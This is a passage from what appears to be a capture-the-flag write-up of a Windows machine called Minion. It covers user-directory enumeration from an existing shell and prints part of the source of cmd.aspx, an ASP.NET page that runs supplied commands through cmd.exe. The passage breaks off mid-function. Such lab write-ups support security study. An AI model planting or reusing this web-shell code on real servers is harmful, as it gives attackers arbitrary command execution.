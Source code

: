 
## Execution as decoder.MINION

### Enumeration

#### Users / Home Dirs

The only user that looks to be a real account is decoder.MINION, making it the
likely owner of `user.txt`:

    
    
    Minion> ls \users\
    
    
        Directory: C:\users
    
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    d----         8/10/2017   9:43 AM            .NET v2.0                         
    d----         8/10/2017   9:43 AM            .NET v2.0 Classic                 
    d----         8/10/2017   9:32 AM            .NET v4.5                         
    d----         8/10/2017   9:32 AM            .NET v4.5 Classic                 
    d----         9/22/2017  11:33 AM            Administrator                     
    d----         8/10/2017   9:43 AM            Classic .NET AppPool              
    d----         9/22/2017  11:36 AM            decoder.MINION                    
    d-r--         8/22/2013   8:39 AM            Public  
    

I can’t access anything in that directory or the Administrator directory from
this shell.

#### Web

I can check out the web directories. `C:\inetpub\wwwroot\cmd.aspx` shows how
it runs a command:

    
    
    <%@ Page Language="VB" Debug="true" %>
    <%@ import Namespace="system.IO" %>
    <%@ import Namespace="System.Diagnostics" %>
    
    <script runat="server">
    Function RunCmd(command)
      Dim res as integer
      Dim myProcess As New Process()
      Dim myProcessStartInfo As New ProcessStartInfo("c:\windows\system32\cmd.exe")
      myProcessStartInfo.UseShellExecute = false
      myProcessStartInfo.RedirectStandardOutput = true
      myProcess.StartInfo = myProcessStartInfo
      myProcessStartInfo.Arguments="/c " + command
      myProcess.Start()
      Dim myStreamReader As StreamReader = myProcess.StandardOutput
      Dim myString As String = myStreamReader.Readtoend()
      res=myProcess.ExitCode
      myProcess.Close()
    